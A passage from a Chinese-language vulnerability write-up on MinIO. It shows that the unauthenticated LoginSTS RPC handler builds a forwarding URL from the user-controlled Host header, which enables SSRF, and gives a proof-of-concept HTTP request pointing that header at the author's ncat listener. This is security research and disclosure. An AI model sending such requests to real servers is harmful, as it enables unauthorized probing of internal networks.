 这就堵死了前两种绕过方法，爆破当然就更别说了，通常仅作为没办法的情况下的手段。当然，MinIO中使用用户的密码作为签名的密钥，这个其实会让爆破变地简单一些。

鉴权这块没啥突破，我们就可以看看，有哪些RPC接口没有进行权限验证。

很快找到了一个接口，`LoginSTS`。这个接口其实是AWS STS登录接口的一个代理，用于将发送到JsonRPC的请求转变成STS的方式转发给本地的9000端口（也就还是他自己，因为它是兼容AWS协议的）。

简化其代码如下：

```go
// LoginSTS - STS user login handler.
func (web *webAPIHandlers) LoginSTS(r *http.Request, args *LoginSTSArgs, reply *LoginRep) error {
    ctx := newWebContext(r, args, "WebLoginSTS")

    v := url.Values{}
    v.Set("Action", webIdentity)
    v.Set("WebIdentityToken", args.Token)
    v.Set("Version", stsAPIVersion)

    scheme := "http"
    // ...

    u := &url.URL{
        Scheme: scheme,
        Host:   r.Host,
    }

    u.RawQuery = v.Encode()
    req, err := http.NewRequest(http.MethodPost, u.String(), nil)
    // ...
}
```

没发现有鉴权上的绕过问题，但是发现了另一个有趣的问题。这里，MinIO为了将请求转发给“自己”，就从用户发送的HTTP头Host中获取到“自己的地址”，并将其作为URL的Host构造了新的URL。

这个过程有什么问题呢？

因为请求头是用户可控的，所以这里可以构造任意的Host，进而构造一个SSRF漏洞。

我们来实际测试一下，向`http://192.168.227.131:9000`发送如下请求，其中Host的值是我本地ncat开放的端口（`192.168.1.142:4444`）：

```plain
POST /minio/webrpc HTTP/1.1
Host: 192.168.1.142:4444
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 80

{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}
```

成功收到请求：

![4](/images/202202091232269.png)
